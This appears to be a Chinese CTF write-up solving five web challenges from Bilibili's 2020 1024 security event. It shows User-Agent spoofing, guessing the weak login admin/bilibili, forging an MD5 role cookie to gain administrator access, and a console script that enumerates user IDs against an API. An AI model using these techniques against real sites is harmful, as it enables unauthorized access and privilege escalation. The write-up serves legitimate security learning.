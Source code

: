 # 2020-bilibili-sec1024

>本记录由 TePuint Club 赞助完成

## 第一题

打开DevTool审查元素，在`<input>`中找到data

## 第二题

修改浏览器的User-Agent为 `bilibili Security Browser`，然后刷新网页。

或者在Console中输入：

```javascript
$.ajax({
    url: "api/ctf/2",
    type: "get",
    success: function (data) {
        console.log(data.data);
    }
})
```

## 第三题

就是弱口令，完全靠猜，用户名 `admin` ，密码 `bilibili` 。

或者在Console中输入：

```javascript
$.ajax({
    url: "api/ctf/3",
    type: "post",
    contentType: "application/json",
    dataType: "json",
    data: JSON.stringify({
        username: "admin",
        passwd: "bilibili",
    }),
    success: function (data) {
        console.log(data.data)
    }
})
```

## 第四题

cookies中role对应的值为user的MD5，所以将这个值改为 `Administration` 的MD5，即 `7b7bc2512ee1fedcd76bdc68926d4f7b` ，然后刷新网页即可。

或者在Console中输入：

```javascript
$.ajax({
    url: "api/ctf/4",
    type: "get",
    success: function (data) {
        console.log(data.data);
    }
})
```

## 第五题

使用Console向后穷举，我也不知道那个uid哪里来的。

在Console中输入：

```javascript
get(100336889) //这里每个人有可能不一样，请在网页中查找
function get(uid) {
    $.ajax({
        url: "api/ctf/5?uid=" + uid,
        type: "get",
        success: function (data) {
            if (data.code == 200) {
                console.log(data.data)
            } else {
                get(uid + 1)
            }
        }
    })
}
```
